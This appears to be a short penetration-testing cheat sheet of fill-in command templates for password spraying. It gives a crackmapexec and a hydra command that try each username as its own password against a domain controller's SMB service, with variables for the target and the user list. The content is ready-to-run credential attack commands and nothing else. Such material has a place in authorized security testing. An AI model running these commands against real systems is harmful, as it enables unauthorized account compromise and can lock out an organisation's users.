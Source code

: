 # Bruteforce

## Password Spray (user=password) - cme

```
cme smb <domain-controller> -u <users-list> -p <users-list> --no-bruteforce --continue-on-success
```

= domain-controller: $DC
= users-list: $TARGETS/users.list

## Password Spray (user=password) - hydra

```
hydra -s 445 -L <users-list> -e s -V -t1 <domain-controller> smb
```

= domain-controller: $DC
= users-list: $TARGETS/users.list
